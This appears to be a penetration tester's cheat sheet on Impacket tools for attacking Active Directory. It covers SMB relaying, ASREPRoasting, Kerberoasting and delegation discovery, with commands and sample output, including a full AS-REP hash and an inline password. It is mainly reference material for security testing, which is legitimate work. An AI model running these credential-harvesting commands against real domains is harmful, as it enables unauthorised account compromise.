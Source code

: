 
### SMBrelayx - Relay hashes across the network

Requires SMB-signing disabled or not required.

[Byt3bl33d3r.github.io - Practical guide to NTLM relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

### GetNPUsers.py - ASREPRoasting

```plain
$ GetNPUsers.py offsec.nl/ -usersfile users -dc-ip 10.10.20.134
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[-] User johndo doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@offsec.nl:0507c99ed0c44924dee1bd4fdb34e0b9$e6abe0cd017c45688ff4d667183ce9c8cb171635250c7a5d1f12666549466ecb367e6445751b867a44f483e8b255ebd039ea7375229a1c6763eb61965d34945b8500058e36dd32fadd6bdc5dc5fff5ef6ebc90343bdf177984852b3536fb12ab4a21f8cdee93339e7fc97d3028eb1f7643e1c9156f7d1facd658dd5b2061572f615abc4ea4007294ee648f38af428ef5f7045bb194c44bfef4f39f14ad02e982f74ef49a5a904e874ce1c2b5a38b61a4b30b58b2b521f4f81cdaee348b497a9ca757fe33e30e9ef6c7911963e120e905f5cf063964b5a13f7d9668a1f3e63466d1c0d18d9e76e31a8bec236fff42fa928dac
[-] User johndo-adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User janedo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### GetUserSPNs.py - Kerberoasting

```plain
$ GetUserSPNs.py -target-domain offsec.nl -request -outputfile out.log -dc-ip 10.10.10.10 offsec.nl/normal-user
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName               Name               MemberOf                                                              PasswordLastSet             LastLogon                   Delegation
---------------------------------  -----------------  --------------------------------------------------------------------  --------------------------  --------------------------  ----------
SRV2016-DC/DC01.offsec.nl         DC01 [REDACTED]

$ cat out.log
$krb5tgs$23$*[REDACTED]
```

### findDelegation.py - Queries target domain for delegation relationships

```plain
$ findDelegation.py offsec.nl/normal-user:'Welkom1234'
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

AccountName     AccountType     DelegationType                  DelegationRightsTo
-----------     -----------     --------------------------      ------------------
janedo          Person          Resource-Based Constrained      SRV01$
```
